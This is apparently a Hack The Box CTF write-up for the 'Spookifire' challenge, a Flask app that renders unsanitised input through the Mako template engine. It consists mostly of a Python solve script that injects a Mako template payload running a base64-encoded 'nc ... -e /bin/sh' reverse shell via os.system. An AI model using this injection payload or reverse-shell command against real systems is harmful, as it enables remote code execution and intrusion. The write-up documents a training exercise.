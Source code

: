 ```yaml
---
title: Spookifire
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, spookifire]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="../../assets/global/banner.png" alt="banner image">

## Spookifire is a python flask chalenge on Hackthebox

### Description:

Simply this challenge takes user input a print it different fornts
but the problem is it doesn't do any sanitizing and it passes the payload to Mako tamplete Engine to be rendered.

### Source code:
<a href='https://mega.nz/file/OexhiY5B#Q_Zv1UmJpz6XH365b_XSArulT7LUWtLQWZ3etvwLu5w'>Download source code</a>

*zip password: `hackthebox`*

### Vulnerable code:
```python
from mako.template import Template
```

```html
    <tbody>
        ${output}
    </tbody>

```

### Solve:

```python

import base64
import requests
import argparse
 
 

def solve(revshell_ip, revshell_port):
	url = 'http://localhost:1337/'

	rev = f"nc {revshell_ip} {revshell_port} -e /bin/sh"	
	payload = base64.b64encode(rev.encode('utf-8'))
	params = {
		'text': '${self.module.runtime.util.os.system("echo ' + str(payload, "utf-8") + ' | base64 -d| sh")}'
	}
 
	print('\n')
	print(params)
	print('\n')
	try:
		response = requests.get(url, params=params)
		if response.status_code == 200:
			print("Request successful!")
			# print("Response:", response.text)
		else:
			print(f"Request failed with status code: {response.status_code}")
	except requests.RequestException as e:
		print(f"Request failed: {e}")

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Enter your ip and port to get reverse shell.')
    parser.add_argument('ip', type=str, help='ip to get reverse shell')
    parser.add_argument('port', type=str, help='port to get reverse shell')
    args = parser.parse_args()
    solve(args.ip, args.port)

```







